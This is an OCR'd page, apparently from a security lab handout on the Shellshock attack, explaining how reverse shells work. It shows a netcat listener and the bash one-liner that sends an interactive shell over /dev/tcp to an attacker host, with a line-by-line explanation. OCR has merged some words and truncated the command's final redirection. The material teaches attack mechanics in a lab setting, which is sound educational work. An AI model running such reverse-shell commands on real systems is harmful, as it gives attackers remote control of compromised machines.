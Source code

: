 ## 9 Guidelines on Reverse Shell

The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connec-
tion, so the shell gets its input from the connection, and prints out its output also to the connection. At the
other end of the connection is a program run by the attacker; the program simply displays whatever comes
from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network
connection.
A commonly used program by attackers isnetcat, which, if running with the"-l"option, becomes
a TCP server that listens for a connection on the specified port. This server program basically prints out


whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the
following experiment,netcat(ncfor short) is used to listen for a connection on port 9090 (let us focus
only on the first line).

Attacker(10.0.2.6):$ nc -nv -l 9090 Ÿ **Waiting for reverse shell**
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$ Ÿ **Reverse shell from 10.0.2.5.**
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet **10.0.2.5** netmask 255.255.255.0 broadcast 10.0.2.
...

The abovenccommand will block, waiting for a connection. We now directly run the following bash
program on the Server machine (10.0.2.5) to emulate what attackers would run after compromising the
server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s
port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating
that the shell is running on the Server machine; we can type theifconfigcommand to verify that the IP
address is indeed10.0.2.5, the one belonging to the Server machine. Here is the bash command:

Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&

The above command represents the one that would normally be executed on a compromised server. It is
quite complicated, and we give a detailed explanation in the following:

- "/bin/bash -i": The optionistands for interactive, meaning that the shell must be interactive
    (must provide a shell prompt).
- "> /dev/tcp/10.0.2.6/9090": This causes the output device (stdout) of the shell to be
    redirected to the TCP connection to10.0.2.6’s port 9090. InUnixsystems,stdout’s file
    descriptor is 1.
- "0<&1": File descriptor 0 represents the standard input device (stdin). This option tells the system
    to use the standard output device as the stardard input device. Sincestdoutis already redirected to
    the TCP connection, this option basically indicates that the shell program will get its input from the
    same TCP connection.
- "2>&1": File descriptor 2 represents the standard errorstderr. This causes the error output to be
    redirected tostdout, which is the TCP connection.
